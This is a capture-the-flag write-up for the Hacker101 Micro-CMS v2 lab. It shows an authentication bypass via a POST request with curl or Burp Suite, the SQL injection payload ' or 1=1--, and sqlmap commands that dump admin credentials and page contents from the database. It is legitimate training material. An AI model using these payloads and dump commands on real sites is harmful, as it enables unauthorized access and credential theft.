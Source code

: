 <h2>Target: Micro-CMS v2</h2>

<b>Flag 1:</b><br> 
Visiting the site and clicking on ‘Micro-CMS Changelog’ shows:

![image](https://user-images.githubusercontent.com/93153300/205704141-9b93d770-a87d-4c49-90b9-8bde4f239b21.png)
 
If we click on ‘Edit this page’ we get redirected to a login page.  As it says on the page, we cannot edit pages without logging in.  However, we can bypass this authentication by simply using curl:<br>
curl https://2ef52960f05e97401f3ac5ef8787b49f.ctf.hacker101.com/page/edit/1 -X POST

We can also do this bypass with burp suite.  Capture the ‘Edit this page’ request in burp suite.  Send it to ‘repeater’.  Change the request method to ‘POST’, and send the request:

![image](https://user-images.githubusercontent.com/93153300/205704168-254d427d-8f96-443b-9abb-6b090538f998.png)
__________________________________________________________________________
<b>Flag 2:</b><br>
Go to the login page and enter in the username a simple sqli payload: ‘ or 1=1-- <br>
Submit the payload.  The page returns an error page:
 
![image](https://user-images.githubusercontent.com/93153300/205704189-74325a48-1928-4b95-a600-ef4eb0aa9706.png)
 
The page is vulnerable to sql injection.  Back to the login page, enter a regular string for the username and capture the request in burp suite. Save the captured burp suite request to a file.  Next, run sqlmap:  sqlmap -r burp --batch --force-ssl --dbs -D level2 --tables -T admins --columns -C id,username,password –dump

Sqlmap gets the username ‘rossana’ and the password ‘ignacia’.  Login to get the second flag.
_______________________________________________________________________
<b>Flag 3:</b><br>
We can find the third flag in a different column in the database: sqlmap -r burp --batch --force-ssl --dbs -D level2 --tables -T pages --columns -C body –dump
